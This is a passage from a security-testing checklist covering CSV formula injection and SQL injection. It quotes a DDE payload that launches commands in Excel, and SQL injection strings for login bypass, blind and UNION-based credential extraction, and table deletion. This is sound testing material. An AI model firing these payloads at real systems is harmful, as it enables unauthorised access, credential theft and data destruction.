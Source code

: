 **Expected Output**: Formulas should be escaped/sanitized in CSV output.

**Vulnerability Confirmation**:
```
Vulnerable if CSV contains:
=cmd|'/c calc'!A1  (unescaped)

When opened in Excel:
- Calculator launches
- Command executes
- Data exfiltrated

Safe output:
'=cmd|'/c calc'!A1  (prefixed with single quote)
or
"=""=cmd|'/c calc'!A1"""  (escaped)
```

**Generic Mitigation**:
- Prefix dangerous characters with single quote: ' = + - @
- Escape formulas in CSV output
- Use CSV libraries that auto-escape
- Warn users before opening exports
- Set cell type to text
- Validate input before storage
- Consider JSON/PDF exports instead

---

### 39. SQL Injection

**Issue Description**: Unsanitized user input in SQL queries allows database manipulation and data theft.

**Execution Steps**:
```bash
# Test SQL injection vectors:

# 1. Authentication bypass
Username: admin' OR '1'='1
Password: anything
Username: admin'--
Username: admin' #

# 2. Test in search fields
Search: test' OR '1'='1
Search: test'; DROP TABLE users--
Search: test' UNION SELECT username, password FROM users--

# 3. Numeric parameters
GET /api/user?id=123
Try: ?id=123 OR 1=1
Try: ?id=123' OR '1'='1

# 4. Boolean-based blind SQLi
?id=1' AND 1=1--  (True - normal response)
?id=1' AND 1=2--  (False - different response)

# 5. Time-based blind SQLi
?id=1' AND SLEEP(5)--
?id=1' AND WAITFOR DELAY '0:0:5'--

# 6. UNION-based SQLi
?id=1' UNION SELECT NULL,NULL,NULL--
?id=1' UNION SELECT username,password,email FROM users--

```